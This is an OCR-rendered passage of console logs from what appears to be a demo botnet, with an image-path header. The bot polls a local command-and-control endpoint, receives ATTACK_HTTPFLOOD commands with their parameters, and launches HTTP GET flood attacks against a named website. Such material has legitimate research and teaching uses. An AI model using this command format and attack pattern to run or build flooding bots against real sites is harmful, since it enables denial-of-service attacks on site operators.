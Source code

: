 \begin{verbatim}
                 period=10-120:MILLISECONDS), method=GET, header={User-Agent=myBot},
                 params={}), HttpFloodAttack(super=AbstractFloodAttack(executions=1,
                 period=null), method=GET, header={}, params={})], report=false}
	08:37:04.373 [main] INFO attackHttpFlooding - 
                 Scheduling HTTP GET Flooding attack against http://www.micheleporretta.com...
08:37:04.380 [main] INFO attackHttpFlooding - 
                 Attack scheduled
08:37:04.380 [main] INFO attackHttpFlooding - 
                 Scheduling HTTP GET Flooding attack against http://www.micheleporretta.com...
08:37:04.386 [main] INFO attackHttpFlooding - 
                 Attack scheduled
08:37:04.386 [main] INFO run - 
                 Waiting for polling from C&C at http://localhost:3000/command
08:37:04.393 [BotPool_Worker-2] INFO  execute - 
                 Launching HTTP FLOOD attack: 
                 GET http://www.micheleporretta.com (1/1) behind proxy none
08:37:04.396 [BotPool_Worker-1] INFO  execute - 
                 Launching HTTP FLOOD attack: 
                 GET http://www.micheleporretta.com (1/3) behind proxy none
08:37:04.686 [BotPool_Worker-3] INFO  execute - 
                 Launching HTTP FLOOD attack: 
                 GET http://www.micheleporretta.com (2/3) behind proxy none
08:37:05.104 [BotPool_Worker-4] INFO  execute - 
                 Launching HTTP FLOOD attack: 
                 GET http://www.micheleporretta.com (3/3) behind proxy none
08:37:08.392 [main] INFO run - 
                 Received command ATTACK_HTTPFLOOD with params {
                 attacks=[HttpFloodAttack(super=AbstractFloodAttack(executions=3,
                 period=10-120:MILLISECONDS), method=GET, header={User-Agent=myBot},
                 params={}), HttpFloodAttack(super=AbstractFloodAttack(executions=1,
                 period=null), method=GET, header={}, params={})], report=false}
                 from C&C at http://localhost:3000/command
08:37:08.393 [main] INFO executeCommand - 
                 Executing command ATTACK_HTTPFLOOD with params {
                 attacks=[HttpFloodAttack(super=AbstractFloodAttack(executions=3,
                 period=10-120:MILLISECONDS), method=GET, header={User-Agent=myBot},
                 params={}), HttpFloodAttack(super=AbstractFloodAttack(executions=1,
                 period=null), method=GET, header={}, params={})], report=false}
08:37:08.393 [main] INFO attackHttpFlooding - 
                 Scheduling HTTP GET Flooding attack against http://www.micheleporretta.com...
08:37:08.394 [main] INFO attackHttpFlooding - 

\end{verbatim}
